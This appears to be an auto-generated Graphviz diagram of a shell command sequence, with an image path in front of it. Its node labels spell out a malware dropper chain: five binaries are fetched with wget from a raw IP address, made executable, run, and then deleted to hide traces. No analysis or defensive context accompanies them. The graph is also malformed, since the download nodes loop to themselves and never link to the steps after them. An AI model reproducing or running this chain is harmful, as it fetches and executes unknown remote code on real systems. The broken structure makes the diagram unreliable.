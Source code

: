 digraph {
0 [label="wget http://199.101.48.210/10 "];
0 -> 0
2 [label="chmod +x 10 "];
2 -> 4 [label=";,"];
4 [label="./10 "];
4 -> 6 [label=";,"];
6 [label="rm -f 10* "];
6 -> 8 [label=";,"];
8 [label="wget http://199.101.48.210/11 "];
8 -> 8
10 [label="chmod +x 11 "];
10 -> 12 [label=";,"];
12 [label="./11 "];
12 -> 14 [label=";,"];
14 [label="rm -f 11* "];
14 -> 16 [label=";,"];
16 [label="wget http://199.101.48.210/12 "];
16 -> 16
18 [label="chmod +x 12 "];
18 -> 20 [label=";,"];
20 [label="./12 "];
20 -> 22 [label=";,"];
22 [label="rm -f 12* "];
22 -> 24 [label=";,"];
24 [label="wget http://199.101.48.210/13 "];
24 -> 24
26 [label="chmod +x 13 "];
26 -> 28 [label=";,"];
28 [label="./13 "];
28 -> 30 [label=";,"];
30 [label="rm -f 13* "];
30 -> 32 [label=";,"];
32 [label="wget http://199.101.48.210/14 "];
32 -> 32
34 [label="chmod +x 14 "];
34 -> 36 [label=";,"];
36 [label="./14 "];
36 -> 38 [label=";,"];
38 [label="rm -f 14* "];
38 -> 39 [label=";,"];
}
